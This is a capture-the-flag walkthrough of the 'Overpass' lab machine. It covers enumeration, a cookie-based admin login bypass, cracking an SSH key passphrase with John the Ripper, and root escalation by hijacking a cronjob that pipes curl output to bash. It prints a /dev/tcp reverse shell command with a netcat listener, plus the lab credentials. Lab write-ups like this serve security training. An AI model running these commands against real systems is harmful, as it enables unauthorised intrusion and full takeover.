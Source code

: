 # Overpass

##### Difficulty: [ Easy ]

**Tags:** `Linux`,  `nmap`,  `Gobuster`,  `javascript`,  `john`,  `ssh`,  `cronjob`,  `reverse shell`

---

##### Written: 21/05/2021

##### IP address: 10.10.138.135

---

First, I ran an **nmap scan** to enumerate the services that are running on the target machine. The command used is:

```
sudo nmap -sC -sV -vv -oN nmap_initial 10.10.138.135
```

 **Results:**

<img style="float: left;" src="screenshots/screenshot1.png">

From the results, we can see that there are two open ports on the machine: **SSH** and **HTTP**.

<br>

Navigating to the HTTP webserver, I can see the following page:

<img style="float: left;" src="screenshots/screenshot2.png">

Before carrying out a happy-path enumeration, I shall use **Gobuster** to see if I can enumerate any hidden directories. The command used is as such:

```
gobuster dir -u http://10.10.138.135/ -x php,js,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Note that I made sure to check for common extensions such as **.php** in my directory enumeration.

With Gobuster up and running, I can then begin to explore the page.

The first thing I did was to check the source code of the home page. Doing so, I noticed an interesting comment that was left behind by one of the web developers:

<img style="float: left;" src="screenshots/screenshot3.png">

This seems to imply that their 'military grade cryptography' is actually one that was used by Romans. Furthermore, it doesn't seem to be very secure by the looks of it.

Could it be the **Caesar Cipher**? I will keep this in mind for now!

<br>

Next, on the **Downloads** page, there are some files that we can download. Interestingly, they actually provide the **source code** for their password manager! I made sure to download it, as well as the **Build Script** and the **Precompiled Linux Binary**.

<img style="float: left;" src="screenshots/screenshot4.png">

Before looking at those files, let me check on the results of Gobuster:

<img style="float: left;" src="screenshots/screenshot5.png">

<br>

Nice, Gobuster managed to find an **admin login page**:

<img style="float: left;" src="screenshots/screenshot6.png">

I tried some basic SQL injections but they did not work. However, I realized that the login functionality was actually exposed in the **login.js** file that was enumerated. 

<img style="float: left;" src="screenshots/screenshot7.png">

Looking more closely at the **login()** function, it seems that the credentials that are inputted at the login screen are sent in a POST request to an endpoint **'/api/login'**. The response is then received and the data inside is stored in a variable **statusOrCookie**. There is then a check to verify whether the user is authenticated or not. However, looking at the **else** statement which authenticates the user, if we simply create a **SessionToken** cookie and set any random value,  we will be redirected to the **/admin** page.

Let's test this out in the **developer tools > Storage**. In there, I created a cookie called SessionToken and assigned a value to it.

<img style="float: left;" src="screenshots/screenshot8.png">

<br>

Upon refreshing the page, we can see that I have gained access into the administrator panel.

<img style="float: left;" src="screenshots/screenshot9.png">

We have an RSA private key, which will probably be used to log into the ssh server that is also running on the machine. The username that uses this key could also be **James**, as he is mentioned explicitly in the message.

Let's copy this private key and try to ssh into the machine.

<img style="float: left;" src="screenshots/screenshot10.png">

Unfortunately we need to find out the **passphrase** for the RSA key. We can try a dictionary attack using **John the Ripper**, which is a password cracking tool. First, we need to convert the RSA key into a hash that can be cracked by JTR. To do so, we use an auxiliary tool called **ssh2john**. This can be done with the following command:

```
python /usr/share/john/ssh2john.py key_rsa > key_rsa.hash 
```

*Note that python3 does not execute ssh2john properly!*

Now, we can use JTR with the rockyou.txt wordlist and try to crack the passphrase:

```
john --wordlist=/usr/share/wordlists/rockyou.txt key_rsa.hash
```

**Results**

<img style="float: left;" src="screenshots/screenshot11.png">

Nice! James's private key passphrase is **james13**. Now we can log into the ssh server.

<img style="float: left;" src="screenshots/screenshot12.png">

**With that, we can obtain the user flag from the home directory of James.**

---

Next, we have to a way to escalate our privileges. 

First, I checked out the **todo.txt** file located in the home directory of James.

<img style="float: left;" src="screenshots/screenshot13.png">

Nice, looks like James's password is stored in the password manager that he implemented. I used the **find** command to located the overpass binary on the target machine.

```
find / -name overpass 2>/dev/null
```

The binary was found in **/usr/bin/overpass**.

I executed the binary and managed to obtain James's password by retrieving all of the saved passwords:

<img style="float: left;" src="screenshots/screenshot14.png">

James password is **saydrawnlyingpicture**

<br>

Next, I'll try and see what **sudo privileges** James has on this machine.

 <img style="float: left;" src="screenshots/screenshot15.png">



Uh oh, looks like James does not have any sudo privileges at all. I will have to try another path of privilege escalation.

To automate the process, I'll be using **linpeas**, which is a privilege escalation automation script. After running the script, linpeas managed to automate a high potential PE vector.

<img style="float: left;" src="screenshots/screenshot16.png">

The *** * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash** refers to a **cronjob**, which generally has the following format:

<img style="float: left;" src="screenshots/screenshot17.png">

Essentially, the ***** symbols dictate the frequency of the cronjob. If the user to execute the command/binary is to be set, then their name will be placed right after the symbols. Then, the command to run during each interval will be placed after that. In the case of the example above, the **rm /home/someuser/tmp/*** command will run **every minute** (as shown by 5 * symbols)

<br>

How about the cronjob that was found by linpeas?

<img style="float: left;" src="screenshots/screenshot18.png">

Hence, this cronjob curls a **buildscript.sh** file from **overpass.thm/downloads/src**  every minute and executes it as it pipes it over to bash. The important thing to note is that this command is **executed as root**. We can exploit this vulnerability by creating our own bashscript.sh which sets up a **reverse shell** that connects back to our host machine. Since our buildscript.sh is piped over to bash and executed as root, the reverse shell that we obtain will be root as well.

<br>

Let's set this up!

First, I needed to know what ip address **overpass.thm** points to. Looking at the **/etc/hosts** file on the target machine, we can actually see that overpass.thm points to localhost:

<img style="float: left;" src="screenshots/screenshot19.png">

I changed the IP address associated with this domain to my own IP address. Now, every time a request is made to overpass.thm, the target machine will check the /etc/hosts file and direct the request to my machine instead.

<br>

Next, I created a bash script called **buildscript.sh** with the following command inside:

```
bash -i >& /dev/tcp/YOUR_IP_HERE/8080 0>&1
```

This is a basic reverse shell command that makes a connection back to port 8080 of my local host.

Next, I placed this script inside a **/downloads/src** directory within my machine. I then started up a simple http server on **port 80** using python.

Finally, I also set up a netcat listener on port 8080 using the command:

```
nc -lvnp 8080
```

<br>

Hence, once a minute passes, the target machine will curl my created **buildscript.sh** and execute it as root, setting up a reverse shell which my netcat listener is currently listening out for.

<img style="float: left;" src="screenshots/screenshot20.png">

After a minute passed, we can see that my buildscript.sh was indeed curl'ed by the target machine.

<img style="float: left;" src="screenshots/screenshot21.png">

And with that, I have gained access to the target machine as **root**.

**I can then obtain the root flag from root.txt found in the root directory.**

